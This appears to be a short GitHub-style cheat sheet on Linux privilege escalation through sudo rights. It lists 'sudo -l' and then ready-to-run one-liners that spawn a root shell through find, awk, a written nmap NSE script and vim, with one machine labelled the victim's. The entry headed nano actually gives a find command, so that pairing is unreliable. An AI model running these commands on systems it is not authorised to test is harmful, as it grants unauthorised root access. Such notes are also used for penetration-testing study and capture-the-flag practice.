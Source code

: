 `sudo -l` command lists the commands that the user is allowed to run with `sudo` privileges.

#### Programs that can run via Sudo
**Victim's Machine**
```
sudo -l
```

#### Exploitation
##### For `/usr/bin/nano` 
```
sudo find /bin -name nano -exec /bin/sh \;
```
##### For `/usr/bin/awk`
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
##### For `/usr/bin/nmap`
```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```
##### For `/usr/bin/vim`
```
sudo vim -c '!sh'
```
